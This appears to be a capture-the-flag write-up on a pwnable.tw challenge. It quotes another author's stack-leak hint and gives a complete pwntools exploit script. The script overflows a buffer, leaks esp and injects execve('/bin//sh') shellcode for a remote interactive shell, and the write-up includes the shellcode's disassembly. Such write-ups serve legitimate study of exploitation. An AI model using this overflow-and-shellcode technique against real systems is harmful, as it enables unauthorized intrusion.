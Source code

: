 The author noticed, 
>"Turning point was noticing there was no reason for the binary to push esp at the entry point. It was a great hint. You can make the binary leak the stack address via making it leak that esp: you want to print stored esp, jump again into the main function, perform the exploit now knowing more about the stack position."

## The exploit script
```
from pwn import *
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

payload="A"*20+p32(0x08048087) # 0x08048087 mov %esp,%ecx
 
p = remote("chall.pwnable.tw",10000) #To open connection 
 
print p.recvuntil(":") #Reads till : 
 
p.send(payload)
message=p.recv(20)[0:4]#address is string
stack=u32(message) 

print "Address of stack: " + hex(stack)

payload_next="A"*20+p32(stack+0x14)+shellcode

p.sendline(payload_next) 
 
p.interactive()
```


The shellcode is disassembled to be:
```
0:  31 c0                   xor    eax,eax
2:  50                      push   eax
3:  68 2f 2f 73 68          push   0x68732f2f
8:  68 2f 62 69 6e          push   0x6e69622f	;pushes "/bin//sh" into the stack
d:  89 e3                   mov    ebx,esp
f:  89 c1                   mov    ecx,eax
11: 89 c2                   mov    edx,eax
13: b0 0b                   mov    al,0xb
15: cd 80                   int    0x80		;execve("/bin//sh")
17: 31 c0                   xor    eax,eax
19: 40                      inc    eax
1a: cd 80                   int    0x80		;sys_exit
```
Honestly it is very similar to what I had in mind. *I just failed to consider that ASLR was enabled.*

I played around with the code and noticed the following things:
1. Changing *"/bin//sh"* to *"bash"* does not work. I do not know why either. (But *"/bin/sh"* works fine)
2. *"\x31\xc0\x40\xcd\x80"* is completely redundant. We do not need to do a sys_exit afterwards.
